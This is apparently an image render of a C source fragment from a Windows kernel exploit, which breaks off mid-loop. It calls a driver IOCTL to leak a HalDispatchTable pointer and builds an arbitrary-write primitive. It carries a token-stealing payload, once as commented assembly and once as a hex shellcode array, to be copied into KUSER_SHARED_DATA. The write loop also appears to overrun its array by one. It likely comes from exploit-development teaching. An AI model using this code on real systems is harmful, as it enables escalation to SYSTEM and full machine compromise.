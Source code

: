 ```c
    unsigned long long halDispatch = 0x9090909090909090;

    // Setting the Name member of the main object
    mainObject.Name = &halDispatch;

    // Perform the "Get" operation on the main object
    DeviceIoControl(
        driverHandle,
        0x0022206b,
        &mainObject,
        sizeof(mainObject),
        &mainObject,
        sizeof(mainObject),
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Print update
    printf("[+] Preserved [nt!HalDispatchTable+0x8] value: 0x%llx\n", halDispatch);

    // Arbitrary write primitive

    /*
        ; Windows 10 19H1 x64 Token Stealing Payload
        ; Author Connor McGarr
        [BITS 64]
        _start:
            mov rax, [gs:0x188]       ; Current thread (_KTHREAD)
            mov rax, [rax + 0xb8]     ; Current process (_EPROCESS)
            mov rbx, rax              ; Copy current process (_EPROCESS) to rbx
        __loop:
            mov rbx, [rbx + 0x448]    ; ActiveProcessLinks
            sub rbx, 0x448            ; Go back to current process (_EPROCESS)
            mov rcx, [rbx + 0x440]    ; UniqueProcessId (PID)
            cmp rcx, 4                ; Compare PID to SYSTEM PID
            jnz __loop                ; Loop until SYSTEM PID is found
            mov rcx, [rbx + 0x4b8]    ; SYSTEM token is @ offset _EPROCESS + 0x360
            and cl, 0xf0              ; Clear out _EX_FAST_REF RefCnt
            mov [rax + 0x4b8], rcx    ; Copy SYSTEM token to current process
            xor rax, rax              ; set NTSTATUS STATUS_SUCCESS
            ret                       ; Done!
    */

    // Shellcode
    unsigned long long shellcode[9] = { 0 };
    shellcode[0] = 0x00018825048B4865;
    shellcode[1] = 0x000000B8808B4800;
    shellcode[2] = 0x04489B8B48C38948;
    shellcode[3] = 0x000448EB81480000;
    shellcode[4] = 0x000004408B8B4800;
    shellcode[5] = 0x8B48E57504F98348;
    shellcode[6] = 0xF0E180000004B88B;
    shellcode[7] = 0x48000004B8888948;
    shellcode[8] = 0x0000000000C3C031;

    // Assign the target address to write to the corrupted object
    unsigned long long kusersharedData = 0xfffff78000000800;

    // Create a "counter" for writing the array of shellcode
    int counter = 0;

    // For loop to write the shellcode
    for (int i = 0; i <= 9; i++)
```